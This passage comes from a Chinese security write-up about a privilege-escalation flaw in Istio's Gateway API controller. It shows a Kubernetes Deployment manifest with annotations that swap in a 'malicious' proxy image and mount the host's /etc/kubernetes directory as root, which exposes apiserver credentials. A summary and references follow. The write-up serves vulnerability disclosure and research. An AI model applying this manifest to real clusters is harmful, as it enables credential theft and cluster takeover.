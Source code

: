    apiVersion: apps/v1kind: Deploymentmetadata:  annotations:    deployment.kubernetes.io/revision: "1"    inject.istio.io/templates: sidecar    [...]    sidecar.istio.io/proxyImage: docker.io/shtesla/proxyv2:malicious    sidecar.istio.io/userVolume: '[{"name":"kubernetes-dir","hostPath": {"path":"/etc/kubernetes","type":"Directory"}}]'    sidecar.istio.io/userVolumeMount: '[{"mountPath":"/tmp/test","name":"kubernetes-dir"}]'  generation: 1  labels:    gateway.istio.io/managed: istio.io-gateway-controller  name: gateway  namespace: istio-ingressspec:  progressDeadlineSeconds: 600  replicas: 1  revisionHistoryLimit: 10  selector:    matchLabels:      istio.io/gateway-name: gateway  strategy:    rollingUpdate:      maxSurge: 25%      maxUnavailable: 25%    type: RollingUpdate  template:    metadata:      annotations:        inject.istio.io/templates: sidecar        [...]        sidecar.istio.io/proxyImage: docker.io/shtesla/proxyv2:malicious        sidecar.istio.io/userVolume: '[{"name":"kubernetes-dir","hostPath": {"path":"/etc/kubernetes","type":"Directory"}}]'        sidecar.istio.io/userVolumeMount: '[{"mountPath":"/tmp/test","name":"kubernetes-dir"}]'      creationTimestamp: null      labels:        istio.io/gateway-name: gateway        sidecar.istio.io/inject: "true"    spec:      containers:      - image: auto        imagePullPolicy: Always        name: istio-proxy        ports:        - containerPort: 15021          name: status-port          protocol: TCP        readinessProbe:          failureThreshold: 10          httpGet:            path: /healthz/ready            port: 15021            scheme: HTTP          periodSeconds: 2          successThreshold: 1          timeoutSeconds: 2        resources: {}        securityContext:          allowPrivilegeEscalation: true          capabilities:            add:            - NET_BIND_SERVICE            drop:            - ALL          readOnlyRootFilesystem: true          runAsGroup: 1337          runAsNonRoot: false          runAsUser: 0        terminationMessagePath: /dev/termination-log        terminationMessagePolicy: File      dnsPolicy: ClusterFirst      restartPolicy: Always      schedulerName: default-scheduler      securityContext: {}      terminationGracePeriodSeconds: 30

  
成功在/tmp/test目录下挂载kubernetes目录，可以看到apiserver的凭据。  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220413190841.png)

##  

 **4**  
 **总结**  
虽然John Howard与我友好沟通时，反复询问我这和用户直接创建pod有何区别？但我觉得，整个利用过程，也不失为一种新的特权提升的方法。  
随着kubernetes各种新的api从SIG孵化出来，以及更多新的云原生组件加入进来，在上下文传递的过程中，难免会出现这种曲线救国，权限溢出的漏洞。  
我觉得，各种云原生的组件controller，也可以作为重点的审计对象。  
实战中，要说完全能复现这个漏洞的利用过程，可能不太现实。但希望此文可以为各位师傅提供相关场景的参考。在infra中，k8s声明式的api配合海量组件watch资源的变化引入了无限的可能，或许实战中，限定资源的读或者写，就可以转化成特权提升漏洞。  
 **5**  
 **参考链接**  

  *   *   *   * 

    
    
     https://gateway-api.sigs.k8s.io/https://istio.io/latest/docs/reference/config/annotations/https://istio.io/latest/news/security/istio-security-2022-002/https://istio.io/latest/docs/tasks/traffic-management/ingress/gateway-api/

  
  
\- END -  
  
往期推荐  
[![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220413190844.png)](http://mp.weixin.qq.com/s?__biz=MzAwMzYxNzc1OA==&mid=2247498468&idx=1&sn=1470091d2324f57ac96b2e3700fb44cb&chksm=9b3adc55ac4d5543bd24c441c82a17e9a4659c7db2382ba7d702adcf017ce6f4236a4b588ba3&scene=21#wechat_redirect)
